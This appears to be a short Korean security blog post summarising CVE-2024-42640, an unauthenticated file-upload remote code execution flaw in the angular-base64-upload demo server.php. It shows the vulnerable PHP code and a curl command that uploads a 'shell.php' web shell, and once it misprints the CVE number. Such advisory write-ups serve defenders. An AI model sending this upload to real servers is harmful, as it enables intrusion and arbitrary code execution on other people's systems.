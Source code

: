 ```yaml
---
title: "[하루한줄] CVE-2024-42640 : Angular의 업로드 파일 검증 미흡으로 인한 Unauthenticated RCE"
author: j0ker
tags: [Angular, CVE-2024-42640, File Upload, Unauthenticated, RCE, j0ker]
categories: [1day1line]
date: 2024-10-13 19:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

- [Unauthenticated RCE via Angular-Base64-Upload CVE-2024-42640](https://www.zyenra.com/blog/unauthenticated-rce-in-angular-base64-upload.html)

## Target

- angular-base64-upload < v0.1.21

## Explain

[angular-base64-upload](https://github.com/adonespitogo/angular-base64-upload)은 base64로 인코딩된 파일을 업로드하는 라이브러리 입니다.  CVE-2024-42620 취약점은 angular-base64-upload/demo/server.php 엔드포인트에서 발생하며 인증되지 않은 원격 공격자가 임의의 파일을업로드할 수 있는 취약점 입니다. 

```php
<?php
    class Base64File
    {
      public $base64 = '';
      public $filename = '';
      private $folder = 'uploads';
    
      function __construct($attrs)
      {
        $this->base64 = $attrs['base64'];
        $this->filename = $this->folder.'/'.$attrs['filename'];
        $this->decodeBase64File();
        return $this;
      }
    
      function decodeBase64File() {
          $ifp = fopen($this->filename, 'w');
          fwrite( $ifp, base64_decode( $this->base64) );
          fclose($ifp);
          return $ifp;
      }    
    }

    //parse request payload
    $postdata = file_get_contents("php://input");
    $request = json_decode($postdata, true);
    //end parse
  
    $file = new Base64File($request);
    echo $file->filename;  
?>
```

위 코드는 인코딩된 파일을 받아 어떠한 검증도 하지 않고 파일을 저장합니다. 

따라서 아래와 같이 인코딩된 파일을 인자로 서버에 업로드 한 후, uploads 폴더 내 저장된 파일에 접근하면 임의 명령어를 실행할 수 있습니다.

```bash
 curl -lk -X POST \
      -H "Content-Type: application/json" \
      -d '{"base64": "<base64-content>", "filename": "shell.php"}' \
      "http://$domain/{node_modules/bower_components}/angular-base64-upload/demo/server.php"
```